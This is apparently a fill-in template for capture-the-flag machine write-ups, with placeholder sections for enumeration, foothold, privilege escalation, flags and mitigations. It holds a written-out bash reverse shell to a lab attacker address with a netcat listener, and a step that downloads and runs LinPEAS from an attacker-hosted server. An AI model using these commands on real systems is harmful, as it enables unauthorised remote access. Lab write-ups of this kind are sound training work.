

<link rel="stylesheet" href="{{ '/assets/css/obsidian-dividers.css' | relative_url }}">
## Box Information

| Property         | Value                  |
| ---------------- | ---------------------- |
| **Name**         | {{title}}              |
| **OS**           | Linux                  |
| **Difficulty**   | Medium                 |
| **IP**           | 10.10.11.x             |


---

## Summary

<div class="divider divider-info">
    <span class="divider-title">TL;DR</span>
    <span class="divider-content">Brief one-paragraph summary of the box - what vulnerabilities were exploited and key techniques used.</span>
</div>
**Key Vulnerabilities:**
- Vulnerability 1
- Vulnerability 2
- Vulnerability 3

---

## Enumeration

### Nmap Scan

**Initial scan:**
```bash
nmap -sC -sV -oA nmap/{{ title | lower }} 10.10.11.x
```

**Results:**

| Port | Service | TCP/UDP |
| ---- | ------- | ------- |
|      |         |         |
|      |         |         |


**Key findings:**
- Service 1: Description
- Service 2: Description

### Web Enumeration

**Directory brute-forcing:**
```bash
gobuster dir -u http://10.10.11.x -w /usr/share/wordlists/dirb/common.txt
```

**Discovered endpoints:**
- `/admin` - Admin panel
- `/api` - REST API
- `/uploads` - File upload directory

**Technology stack:**
- Framework: 
- Language: 
- Database: 

### Port XXX Enumeration

> [!tip] Discovery
> Describe what you found on this port/service

---

## Initial Foothold

### Vulnerability Discovery

**Vulnerability:** [Vulnerability Name]

<div class="divider divider-info">
    <span class="divider-title">Details</span>
    <span class="divider-content">Explain the vulnerability - what it is, why it exists, how it works</span>
</div>

**Testing the vulnerability:**
```bash
# Commands used to test/verify the vulnerability
```

**Proof of Concept:**
```python
# Exploit code or script
import requests

url = "http://10.10.11.x/vulnerable-endpoint"
payload = {}

response = requests.post(url, data=payload)
print(response.text)
```

### Exploitation

**Step 1:** [Action taken]
```bash
# Commands
```

**Step 2:** [Next action]
```bash
# Commands
```

**Getting a shell:**
```bash
# Reverse shell command
bash -c 'bash -i >& /dev/tcp/10.10.14.x/4444 0>&1'
```

**Listener:**
```bash
nc -lvnp 4444
```


<div class="divider divider-root">
    <span class="divider-title">Shell</span>
    <span class="divider-content">Successfully gained shell as [username]</span>
</div>
---

## User Flag

**Stabilize the shell:**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z
stty raw -echo; fg
```

**Enumerate the system:**
```bash
whoami
id
uname -a
pwd
ls -la
```

**User flag location:**
```bash
cat /home/user/user.txt
flag{user_flag_here}
```

---

## Privilege Escalation

### Enumeration as [username]

**Check sudo privileges:**
```bash
sudo -l
```

**Check for SUID binaries:**
```bash
find / -perm -4000 -type f 2>/dev/null
```

**Check for interesting files:**
```bash
find / -name "*.conf" 2>/dev/null | grep -v "proc\|sys"
```

**Running LinPEAS:**
```bash
# On attacker machine
python3 -m http.server 8000

# On target
wget http://10.10.14.x:8000/linpeas.sh
chmod +x ./linpeas.sh
./linpeas.sh
```

### Lateral Movement (if applicable)

> [!info] Moving to [next user]
> Explanation of how to move laterally

**Exploitation:**
```bash
# Commands to switch users
```

### Root Escalation

**Vulnerability:** [Escalation method]

<div class="divider divider-warning">
    <span class="divider-title">Exploitation Path</span>
    <span class="divider-content">Detailed explanation of the privilege escalation vulnerability</span>
</div>

> [!warning] Exploitation Path
> Detailed explanation of the privilege escalation vulnerability

**Exploitation steps:**

**Step 1:**
```bash
# Command
```

**Step 2:**
```bash
# Command
```

**Step 3:**
```bash
# Command
```

<div class="divider divider-root">
    <span class="divider-title">Root Access</span>
    <span class="divider-content">Successfully escalated privileges to root</span>
</div>

> [!success] Root Access
> Successfully escalated privileges to **root**

### Root Flag

```bash
whoami
# root

cat /root/root.txt
flag{root_flag_here}
```

---

## Post-Exploitation

**Flags:**
- User: `flag{user_flag_here}`
- Root: `flag{root_flag_here}`

**Completion time:** X hours

---

## Lessons Learned

### Vulnerabilities Identified

1. **[Vulnerability 1]**
   - Impact: High/Medium/Low
   - Affected component: 
   - Exploitation difficulty: Easy/Medium/Hard

2. **[Vulnerability 2]**
   - Impact: 
   - Affected component: 
   - Exploitation difficulty: 

### Mitigation Recommendations

**For [Vulnerability 1]:**
- Recommendation 1
- Recommendation 2
- Recommendation 3

**For [Vulnerability 2]:**
- Recommendation 1
- Recommendation 2

### Key Techniques Used

- Technique 1 with brief explanation
- Technique 2 with brief explanation
- Technique 3 with brief explanation

### Things That Didn't Work

> [!failure] Dead Ends
> - Rabbit hole 1: Why it didn't work
> - Rabbit hole 2: What I learned from it

---

## Tools Used

| Tool | Purpose | Command/Usage |
|------|---------|---------------|
| nmap | Port scanning | `nmap -sC -sV target` |
| gobuster | Directory enumeration | `gobuster dir -u URL -w wordlist` |
| burpsuite | Web traffic analysis | Interactive |
| linpeas | Linux enumeration | `./linpeas.sh` |
| custom exploit | Specific vulnerability | `python3 exploit.py` |

---

## References

- [Vulnerability Name - CVE-XXXX-XXXXX](https://cve.mitre.org/)
- [GTFOBins - Tool](https://gtfobins.github.io/)
- [HackTricks - Technique](https://book.hacktricks.xyz/)
- [OWASP - Vulnerability Type](https://owasp.org/)

---

## Timeline



---

**Pwned on:** {{date:MMMM DD, YYYY}}  
**Difficulty Rating:** ☭☭☭☭ (Personal rating)  
**Fun Factor:** ☭☭☭☭☭☁(How enjoyable was it?)
